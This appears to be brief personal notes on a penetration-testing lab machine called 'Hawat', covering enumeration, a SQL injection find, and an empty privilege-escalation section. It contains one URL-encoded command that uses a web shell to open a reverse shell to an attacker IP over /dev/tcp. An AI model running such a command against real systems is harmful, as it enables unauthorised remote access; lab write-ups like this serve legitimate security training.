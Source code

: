 # Hawat (Linux)

## Initial Foothold

Three interconnected HTTP services discovered. Used `gobuster` for full directory enumeration. Searched files for the keyword "פינצה" and identified a SQL injection vulnerability ([see notes](obsidian://open?vault=Obsidian%20Vault&file=SQLi)).  
Obtained a reverse shell with:
```bash
curl "http://192.168.158.147:30455/cmd.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.237%2F443%200%3E%261"
```

## Privilege Escalation

(Not specified in the walkthrough. If you have more info, add here.)
